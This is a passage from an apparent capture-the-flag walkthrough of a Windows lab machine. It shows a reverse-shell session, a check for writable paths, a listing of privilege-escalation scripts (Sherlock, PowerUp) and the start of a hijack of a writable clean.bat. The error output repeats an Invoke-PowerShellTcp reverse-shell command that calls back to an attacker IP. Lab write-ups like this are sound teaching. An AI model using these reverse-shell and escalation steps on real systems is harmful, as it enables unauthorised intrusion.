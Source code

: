     PS C:\programdata> echo "test" > 0xdf.exe
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.exe' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
    PS C:\programdata> echo "test" > 0xdf.ps1
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.ps1' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp



The `exe` files that I can run are limited as well. I'll keep this in
mind as I got forward.

#### Rabbit Holes

In the file system root, there's a `scripts` directory. It has a bunch
of privesc utilities:



    PS C:\scripts> ls

        Directory: C:\scripts

    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        23/10/2017     23:37        492 largebackup.ps1                   
    -a---        23/10/2017     23:27         69 powerup.bat                       
    -a---        23/10/2017     23:20         69 sherlock.bat                      
    -a---        23/10/2017     23:21      18818 sherlock.ps1                      
    -a---        15/11/2017     23:54         90 t.bat  



`sherlock.ps1` is [Sherlock](https://github.com/rasta-mouse/Sherlock),
and older script for identifying common vulnerabilities in Windows. It
will return a bunch of stuff, but none of it is actually vulnerable.

### Hijack clean.bat

#### Permissions

Coming back to `C:\users\decoder\clean.bat`, sqlserv has modify
privileges (`a`) on the file:


